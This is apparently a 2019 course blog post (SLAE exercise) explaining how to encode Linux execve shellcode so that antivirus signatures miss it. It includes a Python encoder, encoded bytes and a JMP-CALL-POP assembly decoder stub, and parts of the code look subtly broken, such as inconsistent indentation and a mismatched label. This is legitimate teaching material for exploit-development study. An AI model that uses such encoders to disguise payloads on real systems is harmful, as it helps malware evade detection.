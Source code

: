 ```yaml
---
layout: post
title: SLAE 4 - Custom Encoder
date:   2019-03-07
categories: [SLAE, Assembly]
---
```

## Creating a custom encoder

A custom encoder is used in order to evade antivirus detection.  If a signature is made to detect a specific portion of code, then an encoder will obfuscate the code so that it does not recognize it as the known suspicious/malicious behavior.

Our steps are:
1. Decide on an encoding scheme to obfuscate the shellcode
2. Implement an encoder (in python) that outputs the encoded shellcode
3. Create a decoding stub (in assembly) that manipulates the shellcode, in memory, and then hands off execution to the original shellcode

The trick here is that we will need a way to grab the memory address of the shellcode which is dynamic.  There is a trick that we learned in the SLAE course that uses the JMP-CALL-POP instruction combination in order to obtain the shellcode's address during runtime.  

```asm
_start:
    jmp short get_sc
    
decode_stub:
    pop esi
    ...
    
get_sc:
    call decode_stub
    shellcode: db 0x3c,..... 
```
When we jump to get_sc, our two instructions are a call followed by our shellcode variable.  When the call is made, the next instruction's address is pushed to the stack so that when the call returns, we have the location to continue execution.  Since our first instruction when we land at our jump (decode_stub) is a pop instruction, it pops the address of our shellcode into the register of our choice!\
One big note here is that the jmp short is used in order to prevent NULL bytes!  A post about this little trick that goes in to great detail can be found here:\
https://marcosvalle.github.io/osce/2018/05/06/JMP-CALL-POP-technique.html

With that trick described.. it's time to start deciding on an encoding scheme.

The SLAE course provides an example insertion encoding scheme.  I decided to use this idea and add another encoding idea to it.  The encoder will rot-13 the shellcode and insert 1 random byte after each byte of shellcode.

as an example,:\
0x11,0x11,0x11,0x11\
will become something similar to:\
0x1E,0xCE,0x1E,0xA2,0x1E,0x24,0x1E,0xE9,0xbb,0xbb

In order to detect the end of our shellcode, we will add 0xbb,0xbb to the end.  This idea was suggested in the course video as well.  This way we don't need to hardcode the length and can cmp to 0xbb then jump out if we have found it.

Our encoder is written in python and we are using the shellcode "execve-stack.nasm" from the provided course materials:
```python
import random

shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded1 = ""
encoded2 = ""

for b in bytearray(shellcode):

	encoded1 += '\\x'
	encoded1 += '%02x' % ((b+13)%256)   # add rot-13'd shellcode

# 0xfa was causing issues when compiled, create check to avoid using it. Can add values to the array initialization if more become an issue
	bad_vals = [0xfa]
    while True:
		rand = random.randint(1,256)
        if rand not in bad_vals:
	        break
            
	encoded1 += '\\x%02x' % rand        # insert random byte

	encoded2 += '0x'
	encoded2 += '%02x,' % ((b+13)%256)  # add rot-13'd shellcode
	encoded2 += '0x%02x,' % rand        # insert random byte

encoded1 += '\\xbb\\xbb'                # add our detection byte
encoded2 += '0xbb,0xbb'


print(encoded1)
print(encoded2)

print('Length: %d' % len(bytearray(shellcode)))
```
Running this we receive the output:
```
0x3e,0x62,0xcd,0x8b,0x5d,0xb1,0x75,0x20,0x3c,0xb7,0x3c,0x5e,0x80,0x36,0x75,0xee,0x75,0x25,0x3c,0x05,0x6f,0xa3,0x76,0x8e,0x7b,0xea,0x96,0xa3,0xf0,0x8c,0x5d,0x6d,0x96,0x42,0xef,0x2a,0x60,0xe6,0x96,0xac,0xee,0xb3,0xbd,0x95,0x18,0x71,0xda,0x73,0x8d,0x04,0xbb,0xbb
```
We will save this for later.. 
Now to create the decoder:
We will need to set up our skeleton which will include the jmp-call-pop at the start:
```asm
global _start

section .text

_start:
    jmp short call_shellcode
    
decoder:
    pop esi

call_shellcode:
    call decoder
    ShellCode: db 0x3e,0x62,0xcd,0x8b,0x5d,0xb1,0x75,0x20,0x3c,0xb7,0x3c,0x5e,0x80,0x36,0x75,0xee,0x75,0x25,0x3c,0x05,0x6f,0xa3,0x76,0x8e,0x7b,0xea,0x96,0xa3,0xf0,0x8c,0x5d,0x6d,0x96,0x42,0xef,0x2a,0x60,0xe6,0x96,0xac,0xee,0xb3,0xbd,0x95,0x18,0x71,0xda,0x73,0x8d,0x04,0xbb,0xbb
```
The steps we will take in the main decode loop are:\
1. Grab next byte to decode
2. Check for our tail (0xbb,0xbb). we check for both in a row just in case we run in to just a single instance of 0xbb
3. If tail found, pass execution
4. Decode ROT-13 for the byte
5. Place decoded byte into proper position
6. Increase counters (our pointer to insertion location, and our pointer to the next encoded byte)
7. Loop

```asm
decoder:
	pop esi			; end of jmp-call-pop
	lea edi, [esi]		; set up first insertion byte address
	xor eax, eax
	xor ebx, ebx
decode:
	mov bl, byte [esi + eax]	; sc addr + insert count - this selects the next encoded shellcode byte
	cmp bl, 0xbb			; check for first byte of shellcode tail
	jnz cont
	cmp byte [esi + eax + 1], 0xbb	; check for 2nd byte of shellcode tail
	jz Shellcode			; end of shellcode - hand off execution
cont:
	sub bl, 13			; decode rot-13
	mov byte [edi], bl		; replace byte with the decoded byte
	inc edi				; increase edi to point to next byte to replace
	add al, 2			; increase al by 2 to the next inserted byte
	jmp short decode		; start loop over

call_shellcode:
```
bl stores \[esi + eax\], which translates to \[shellcode_addr + insertion byte counter\].  Since we are alternating between shellcode bytes and random inserted bytes, we increase al by 2 for each iteration.  This lets us skip the inserted byte and grab each byte of the encoded shellcode.\
We then subtract 13 from the encoded byte in order to obtain the original shellcode byte, then we move it into \[edi\]. edi is our placeholder for where the next byte of decoded shellcode should go.  
